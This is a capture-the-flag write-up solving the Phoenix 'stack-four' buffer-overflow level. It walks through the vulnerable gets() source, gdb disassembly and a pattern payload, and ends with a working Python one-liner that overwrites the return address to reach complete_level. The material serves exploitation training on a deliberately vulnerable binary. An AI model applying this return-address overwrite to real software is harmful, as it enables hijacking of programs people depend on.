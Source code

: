 ```yaml
---
title: Phoenix Stack-Four
author: Marius Kimmina
date: 2019-11-03 14:10:00 +0800
categories: [CTF, Binary Exploitation]
tags: [Buffer Overflow]
published: true
---
```


### 0x0. Introduction
For a full introduction to this series and setup description please look at the first post (Phoenix Stack-Zero and One).
In the last level of this series we had to overwrite a function pointer to execute a Function that would otherwise never get 
executed. This time the instruction pointer has been saved and we can use that to overwrite the return pointer.

### 0x1 taking a look at the source code

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```


Our goal here is to change the return pointer so that start_level() "returns" to complete_level() instead of main().
Normally a Function call works like this: The address, of the next instruction after the function call, gets saved to memory.
Then the instruction pointer gets overwritten with the address of the function, once it's finished executing the instruction
pointer gets overwritten again with the previously saved return address.

We can see this behavior in this program easily, since it prints out the return address for us.
First lets have a look at main() in assembler

```
Dump of assembler code for function main:
   0x000000000040066a <+0>:	push   rbp
   0x000000000040066b <+1>:	mov    rbp,rsp
   0x000000000040066e <+4>:	sub    rsp,0x10
   0x0000000000400672 <+8>:	mov    DWORD PTR [rbp-0x4],edi
   0x0000000000400675 <+11>:	mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000400679 <+15>:	mov    edi,0x400750
   0x000000000040067e <+20>:	call   0x400480 <puts@plt>
   0x0000000000400683 <+25>:	mov    eax,0x0
   0x0000000000400688 <+30>:	call   0x400635 <start_level>
   0x000000000040068d <+35>:	mov    eax,0x0
   0x0000000000400692 <+40>:	leave  
   0x0000000000400693 <+41>:	ret    
End of assembler dump.
```

You can see that at address 0x0000000000400688 we are calling start_level(). So our return address should be 0x000000000040068d.
Time to run the program and find out:

```
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-four 
Welcome to phoenix/stack-four, brought to you by https://exploit.education
A
and will be returning to 0x40068d
```

So yes we are indeed correct.


### 0x2 Exploiting the program

First I wanted to know where our return pointer is being saved, to do that i started with a look at start_level() in assembler code

```
(gdb) disassemble start_level
Dump of assembler code for function start_level:
   0x0000000000400635 <+0>:	push   rbp
   0x0000000000400636 <+1>:	mov    rbp,rsp
   0x0000000000400639 <+4>:	sub    rsp,0x50
   0x000000000040063d <+8>:	lea    rax,[rbp-0x50]
   0x0000000000400641 <+12>:	mov    rdi,rax
   0x0000000000400644 <+15>:	call   0x400470 <gets@plt>
   0x0000000000400649 <+20>:	mov    rax,QWORD PTR [rbp+0x8]
   0x000000000040064d <+24>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400651 <+28>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400655 <+32>:	mov    rsi,rax
   0x0000000000400658 <+35>:	mov    edi,0x400733
   0x000000000040065d <+40>:	mov    eax,0x0
   0x0000000000400662 <+45>:	call   0x400460 <printf@plt>
   0x0000000000400667 <+50>:	nop
   0x0000000000400668 <+51>:	leave  
   0x0000000000400669 <+52>:	ret    
End of assembler dump.
```

We can easily identify the calls for gets() and printf() so the answer had to be somewhere in between
So i decided so set a breakpoint at printf() hope to find our return address.
```
(gdb) break *0x0000000000400662
```

Upon hitting the breakpoint and looking at the register values we see:

```
$rax   : 0x000000000040068d  →  <main+35> mov eax, 0x0
```

so rax is holding the return pointer.  
Now that we know that lets get started on the bufferoverflow, as always I'm using the alphabet for a pretty easily recognizable pattern.
```
Welcome to phoenix/stack-four, brought to you by https://exploit.education
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZ
```

And once we hit our breakpoint again we will see that rax is now:
```
$rax   : 0x5858585857575757 ("WWWWXXXX"?)
```

So we have to replace the Ws and Xs in our payload with the address of complete_level(), which we can find out easily in gdb for example 
with "disassemble complete_level". Look at the first address in the disassembled code and that's were we want to return to.
In our case its: 40061d

A pretty easy way to input this address is to decode it with python:

```
user@phoenix-amd64:/opt/phoenix/amd64$ python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVV' + ('1d0640').decode('hex')" | ./stack-four 
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
```

Yet again keep in mind that this little endian thus "40061d" becomes "1d0640", byte by byte from right to left.




/
